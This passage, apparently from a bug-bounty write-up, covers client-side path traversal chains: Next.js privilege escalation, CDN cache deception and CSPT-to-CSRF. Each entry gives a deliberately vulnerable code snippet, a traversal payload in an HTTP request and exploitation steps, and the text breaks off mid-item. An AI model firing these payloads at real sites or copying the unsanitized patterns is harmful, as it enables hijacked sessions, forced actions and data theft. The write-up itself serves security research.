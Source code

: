      ```
   - **Exploitation Steps**:
     1. Upload stored payload (e.g., wikitext with XSS).
     2. Traverse and chain with open redirect to external sites.
     3. Victim visit triggers persistent XSS.
   - **Impact and Bounty**: Medium-High, $1.25k-6k.

4. **Privilege Escalation in Next.js Routing (Example: NFT Platform and LINE Developers)**:
   - **Vulnerability Detail**: Dynamic route validation lacks, allowing admin access and asset manipulation (e.g., NFT details with verified badges).
   - **Code Snippet**:
     ```
     export async function getServerSideProps({ params }) {
       const id = params.id;  // No sanitization
       const data = await fetchInternal(`/admin/nft/${id}`);  // Traversal to admin
       return { props: { data } };
     }
     ```
   - **HTTP Request Example**:
     ```
     GET /nft/collection/%2e%2e%2f%2e%2e/admin/steal?token=malicious HTTP/1.1
     Host: aaa.target.io
     Authorization: Bearer [victim_token]
     ```
   - **Exploitation Steps**:
     1. Encoding traversal reaches admin endpoint.
     2. Manipulate NFTs, steal collections, or abuse badges.
   - **Impact and Bounty**: Critical, $4k. Similar in LINE and privilege escalation chains.

5. **Cache Deception with CSPT Chaining (Example: High-Profile Targets)**:
   - **Vulnerability Detail**: CSPT hijacks authenticated fetches to trigger cacheable responses, poisoning CDNs for data exfil.
   - **Code Snippet (Vulnerable Fetch)**:
     ```
     fetch(`/api/user/data/${path}`).then(res => {
       if (res.headers.get('Cache-Control') === 'public') cacheResponse(res);  // Cacheable if extension matches
     });
     ```
   - **HTTP Request Example**:
     ```
     GET /api/user/data/../sensitive/info.css HTTP/1.1  // CSPT to cacheable extension
     Host: target.com
     ```
   - **Exploitation Steps**:
     1. Use CSPT to append cacheable extensions (e.g., .css).
     2. Hijack session-inclusive fetch.
     3. Poison CDN cache, retrieve sensitive data.
   - **Impact and Bounty**: High, often $10k+ in private programs. Demonstrated by @j_zere and podcasts.

6. **CSPT2CSRF for Forced Actions (Example: Messaging Apps)**:
   - **Vulnerability Detail**: Traversal manipulates endpoints to perform CSRF-like actions (e.g., sending messages).
   - **Code Snippet**:
     ```
     const actionPath = getQueryParam('action');  // Unsanitized
     fetch(`/perform/${actionPath}`, { method: 'POST' });  // Forces action
     ```
   - **HTTP Request Example**:
     ```
     GET /chat?action=../send/message?to=victim&content=malicious HTTP/1.1
     Host: app.target.com
     ```
   - **Exploitation Steps**: